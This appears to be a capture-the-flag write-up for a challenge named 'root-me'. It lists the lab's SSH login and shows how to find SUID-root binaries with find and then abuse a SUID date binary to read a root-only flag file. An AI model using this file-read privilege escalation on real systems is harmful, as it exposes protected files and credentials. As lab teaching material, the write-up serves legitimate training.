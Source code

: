 # root-me

## Challenge Text
* SSH into the challenge host on port 2222
* Username: ubuntu Password: jctf2022!
* Find the flag

## Solution
* Use the find command to find any files owned by root with the SUID bit set
```
find / -perm -4000 
```

* Use the date command to leak the flag
```
date -f /root/flag.txt
```

## Credit
* Developed by [Rob](https://github.com/njccicrob)
